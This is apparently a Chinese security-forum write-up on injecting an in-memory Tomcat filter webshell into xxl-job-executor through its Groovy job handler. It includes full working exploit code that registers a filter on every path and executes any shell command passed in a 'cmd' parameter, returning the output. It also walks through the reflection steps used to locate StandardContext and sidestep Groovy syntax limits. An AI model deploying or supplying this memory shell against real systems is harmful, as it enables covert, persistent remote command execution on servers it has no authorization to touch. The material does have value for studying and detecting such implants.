






# xxl-job-executor 注入 filter 内存马 - 先知社区

xxl-job-executor 注入 filter 内存马

- - -

#### 前情

xxl-job 分为：管理端 xxl-job-admin、执行端 xxl-job-executor。目前 xxl-job 打 agent 内存马要求管理端和执行端处于同一台主机上，实测如果不在同一台主机上，vagent 注入是不成功的，因此针对端点分离的情况，构造了一个 filter 内存马供各位师傅参考。

#### 适用情况

1.  不出网
2.  xxl-job-admin 和 xxl-job-executor 不在同一台主机（在同一台其实也能注，但不一定能访问到，最好是打 [vagent](https://github.com/veo/vagent) 内存马）
3.  本地搭建环境为 xxl-job-2.3.0（tomcat9），其他版本尚未测试。

#### 利用思路

在配置文件中有 server.port 和 executor.port 两种端口，executor.port 的后端是一个 netty 服务，正常情况下应该研究 netty memshell，小试了一手发现缺少必要依赖（可能是我太菜不会玩），于是思路转向 server.port，通过浏览器访问 8081 端口返回 whitelable error page，虽然没懂这端口有啥用，但只要是 tomcat 就行，不妨碍我小注个 filter。

```plain
# application.properties
# web port
server.port=8081

# xxl-job executor server-info
xxl.job.executor.port=9999
```

#### 构造过程

熟悉 Java 的师傅应该对 tomcat 中的一些关键变量名有印象。简而言之，回显需要 org.apache.coyote.Reuqest，三板斧（servlet/filter/listener）需要 StandardContext。但很可惜，由于 embedded-tomcat 是无法使用通用 payload 获取 StandardContext 的（[Java 内存马：一种 Tomcat 全版本获取 StandardContext 的新方法](https://xz.aliyun.com/t/9914)），想要注 filter 只得自行构造 exp。

刚开始准备用 c0ny1 师傅写的 [java-object-searcher](https://github.com/c0ny1/java-object-searcher) 一把梭，这玩意时灵时不灵，经常会卡在 evaluating，不知道是 idea 版本的问题还是其他的原因？不过 issue 中也有其他师傅提了，或许大佬太忙没空改...

花了点时间才定位到 bug，过程不说了，反正 idea 在执行表达式时，是不可以使用 ArrayList 作为函数进行传参的，传了必卡：

```plain
SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
```

将构造函数做如下修改：

```plain
# 修改 SearchRequstByBFS 构造函数，SearchRequstByDFS 同理
public SearchRequstByBFS 构造函数，(Object target){
  this.target = target;
  //把当前的元素加入到队列尾
  q.offer(new NodeT.Builder().setChain("").setField_name("TargetObject").setField_object(target).build());
}

# 给 SearchRequstByBFS 添加一个函数 addKey()
public void addKey(Keyword keyword){
  this.keys.add(keyword);
}
```

[修改后的 java-object-searcher](https://github.com/7rovu/java-object-searcher)打包导入 java 环境中，暴力检索 Request：

```plain
//定义黑名单
List<Blacklist> blacklists = new ArrayList<>();
blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
//新建一个广度优先搜索 Thread.currentThread() 的搜索器
SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread());
//设置搜索类型包含 Request 关键字的对象
searcher.addKey(new Keyword.Builder().setField_type("ServletRequest").build());
searcher.addKey(new Keyword.Builder().setField_type("RequestGroup").build());
searcher.addKey(new Keyword.Builder().setField_type("RequestInfo").build());
searcher.addKey(new Keyword.Builder().setField_type("RequestGroupInfo").build());
searcher.addKey(new Keyword.Builder().setField_type("Request").build());
// 设置黑名单
searcher.setBlacklists(blacklists);
//打开调试模式，会生成 log 日志
searcher.setIs_debug(true);
//挖掘深度为 20
searcher.setMax_search_depth(20);
//设置报告保存位置
searcher.setReport_save_path("D:\\temp");
searcher.searchObject();
```

第一次搜索深度设置的 20，输出结果只有一条，并且和 zema1 师傅获取 org.apache.coyote.Reuqest 流程是一样的（[zema1/ysoserial](https://github.com/zema1/ysoserial/blob/master/src/main/java/ysoserial/payloads/util/Gadgets.java)），由于 9999 端口是 netty 服务，无法打 tomcat 回显，唯一的作用就是找 serverNameMB 和 decodedUriMB，也就是为后续的 HashMap children 提供 key（这里不懂的可以看 bitterz 师傅的文章）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240128053919-873debae-bd5c-1.png)

手动翻到 global 时候，发现 precessors 居然为空？？想了一下，xxl-job-executor 本身通过 9999 端口做远程调用，如果 8081 端口从未被访问过，那么确实存在获取不到 RequestInfo 的情况：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240128053900-7ba9879e-bd5c-1.png)

只有手动访问 8081 后，precessors 中才有 RequestInfo，但此端口是 whitelable error page 啊，因此 RequestInfo 是无效的（serverPort 为 -1，serverNameMB 也是 null），不过应该不影响，无论是本地部署还是远程部署，默认都是`StandardHost["localhost"].StandardContext[""]`，这里如果有错误的话麻烦大佬指正。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240128053844-7261db28-bd5c-1.png)

搜索深度设置 50 又查了一遍，这回有新结果了，下面的 TomcatEmbeddedContext 不就是 StandardContext 吗！如果不眼熟的话，下面还有个 filterConfigs，美滋滋！

[](https://xzfile.aliyuncs.com/media/upload/picture/20240128053822-64ccc8d8-bd5c-1.png)

既然找到 StandardContext 后续就好办了，拿大佬的代码一顿复制粘贴，调试的过程中倒是花了点时间。最难受的是 groovy 的报错看的我莫名其妙，在后续执行过程中发现，虽然 groovy 支持 java 语法，但也并非完全一致，包括但不限于以下这些问题：

1.  xxl-job 不支持`new String[]{"cmd.exe", "/c", req.getParameter("cmd")};`和`new Class[]{String.class, int.class}`这类数组常用语法（在 EXP 中使用 ArrayList 做替换）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240128053804-5a2c2252-bd5c-1.png)

1.  不支持内部类的写法，字符串中的`this$0`需要转义...

#### EXP

几经修改有了以下代码，虽然马子本身比较简单，但又是改 java-object-searcher 又是改语法，最终还是花了点时间才写完。

```plain
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Constructor;
import java.util.ArrayList;

import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

import com.xxl.job.core.context.XxlJobHelper;
import com.xxl.job.core.handler.IJobHandler;

public class DemoGlueJobHandler extends IJobHandler {

    public Object getField(Object obj, String fieldName){
        try {
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            obj = field.get(obj);
        } catch (IllegalAccessException e) {
            XxlJobHelper.log(e.toString());
            return null;
        } catch (NoSuchFieldException e) {
            XxlJobHelper.log(e.toString());
            return null;
        }
        return obj;
    }

    public Object getSuperClassField(Object obj, String fieldName){
        try {
            Field field = obj.getClass().getSuperclass().getDeclaredField(fieldName);
            field.setAccessible(true);
            obj = field.get(obj);
        } catch (IllegalAccessException e) {
            XxlJobHelper.log(e.toString());
            return null;
        } catch (NoSuchFieldException e) {
            XxlJobHelper.log(e.toString());
            return null;
        }
        return obj;
    }

    public void execute() throws Exception {
        Object obj = null;
        String port = "";
        String filterName = "xxl-job-filter";
        // 1.创建filter
        Filter filter = new Filter() {
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                HttpServletResponse resp = (HttpServletResponse) servletResponse;
                if (req.getParameter("cmd") != null) {
                    // 由于xxl-job中的groovy不支持new String[]{"cmd.exe", "/c", req.getParameter("cmd")};这种语法，使用ArrayList的方式绕过
                    ArrayList<String> cmdList = new ArrayList<>();
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        cmdList.add("cmd.exe");
                        cmdList.add("/c");
                    } else {
                        cmdList.add("/bin/bash");
                        cmdList.add("-c");
                    }

                    cmdList.add(req.getParameter("cmd"));
                    String[] cmds = cmdList.toArray(new String[0]);

                    Process process = new ProcessBuilder(cmds).start();
                    InputStream inputStream = process.getInputStream();
                    BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream, "UTF-8"));
                    String line;
                    while ((line = reader.readLine()) != null) {
                        servletResponse.getWriter().println(line);
                    }
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            public void destroy() {

            }
        };

        //2. 创建一个FilterDef 然后设置filterDef的名字，和类名，以及类
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());

        //3. 创建一个filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        //4. 创建ApplicationFilterConfig构造函数
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);

        //5. 找StandardContext
        /*获取group*/
        Thread currentThread = Thread.currentThread();
        Field groupField = Class.forName("java.lang.Thread").getDeclaredField("group");
        groupField.setAccessible(true);
        ThreadGroup group = (ThreadGroup)groupField.get(currentThread);

        /*获取threads*/
        Field threadsField = Class.forName("java.lang.ThreadGroup").getDeclaredField("threads");
        threadsField.setAccessible(true);
        Thread[] threads = (Thread[])threadsField.get(group);

        for (Thread thread : threads) {
            String threadName = thread.getName();
            /*获取tomcat container*/
            if (threadName.contains("container")) {
                /*获取this$0*/
                obj = getField(thread, "this\$0");
                if (port == "") {
                    continue;
                } else {
                    break;
                }
            } else if (threadName.contains("http-nio-") && threadName.contains("-ClientPoller")) {
                /*获取web端口，可在log中查看，默认8081端口*/
                port = threadName.substring(9, threadName.length() - 13);
                if (obj == null){
                    continue;
                } else {
                    break;
                }
            }
        }

        obj = getField(obj, "tomcat");
        obj = getField(obj, "server");
        org.apache.catalina.Service[] services = (org.apache.catalina.Service[])getField(obj, "services");

        for (org.apache.catalina.Service service : services){
            try {
                obj = getField(service, "engine");
                if (obj != null) {
                    HashMap children = (HashMap)getSuperClassField(obj, "children");
                    // xxl-job-executor tomcat9 默认是localhost，并未考虑特殊情况
                    obj = children.get("localhost");
                    children = (HashMap)getSuperClassField(obj, "children");

                    // 获取StandardContext
                    StandardContext standardContext = (StandardContext) children.get("");
                    standardContext.addFilterDef(filterDef);

                    // 将FilterDefs 添加到FilterConfig
                    Map filterConfigs = (Map) getSuperClassField(standardContext, "filterConfigs");

                    // 添加ApplicationFilterConfig
                    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
                    filterConfigs.put(filterName,filterConfig);

                    //将自定义的filter放到最前边执行
                    standardContext.addFilterMapBefore(filterMap);

                    XxlJobHelper.log("success! memshell port:"+port);
                }
            } catch (Exception e){
                XxlJobHelper.log(e.toString());
                continue;
            }
        }
    }
}
```

log 中会输出 executor 的 web 端口：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240128053737-4a4f0df4-bd5c-1.png)

最后验证下马子（只能在 executor 下访问）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240128053718-3f0bbee2-bd5c-1.png)
